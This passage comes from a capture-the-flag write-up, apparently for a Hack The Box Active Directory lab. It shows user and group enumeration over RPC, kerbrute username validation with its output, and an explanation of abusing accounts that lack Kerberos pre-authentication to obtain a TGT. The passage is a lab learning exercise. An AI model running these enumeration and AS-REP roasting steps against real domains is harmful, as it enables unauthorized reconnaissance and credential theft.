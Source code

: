 ```
sebastein
lucinda
svc-alfresco
andy
mark
santi
```
- Like this isn't enough we can also enumerate for groups in the domain using below command by querying RPC 
```bash
enumdomgroups
```
- We can also query information of a particular group with this command
```bash
querygroup <sid>
```
- Now to our real path, I used kerbrute to verify the usernames that I got from RPC earlier and all of them were legit 🤗
```
❯ kerbrute userenum --dc htb.local  -d htb.local users.txt      

    __             __               __     
   / /_____  _____/ /_  _______  __/ /____ 
  / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/                                        

Version: dev (n/a) - 01/13/25 - Ronnie Flathers @ropnop

2025/01/13 22:04:00 >  Using KDC(s):
2025/01/13 22:04:00 >  	htb.local:88

2025/01/13 22:04:00 >  [+] VALID USERNAME:	 Administrator@htb.local
2025/01/13 22:04:00 >  [+] VALID USERNAME:	 andy@htb.local
2025/01/13 22:04:00 >  [+] VALID USERNAME:	 lucinda@htb.local
2025/01/13 22:04:00 >  [+] VALID USERNAME:	 santi@htb.local
2025/01/13 22:04:00 >  [+] VALID USERNAME:	 svc-alfresco@htb.local
2025/01/13 22:04:00 >  [+] VALID USERNAME:	 mark@htb.local
2025/01/13 22:04:00 >  Done! Tested 8 usernames (6 valid) in 0.198 seconds
```

- ## Exploitation
- As I was desperatly looking for a low hanging fruit I checked user accounts that had `DONT_REQUIRE_PREAUTH`. Lucky me I got one user which is none other than `svc-alfresco`.
- This `Pre-Auth` concept is pretty simple let's learn about it, As part of the Kerberos authentication process in Active Directory, there is an initial request to authenticate without a password. This is an artifact left over from Kerberos versions earlier than Kerberos 5. In these earlier versions, Kerberos would allow authentication without a password.
Now, in Kerberos 5, a password is required, which is called “Pre-Authentication.” When looking at the Kerberos exchanges during log-on, you will initially see an AS-REQ (Authentication Server Request) followed by a Kerberos error, which will state that pre-auth is required.
- But in some cases accounts might be configured to authenticate without a Pre-Auth, well yeah which obiviously a misconfiguration. Using below the tool below I abused it and got the TGT from kerberos 
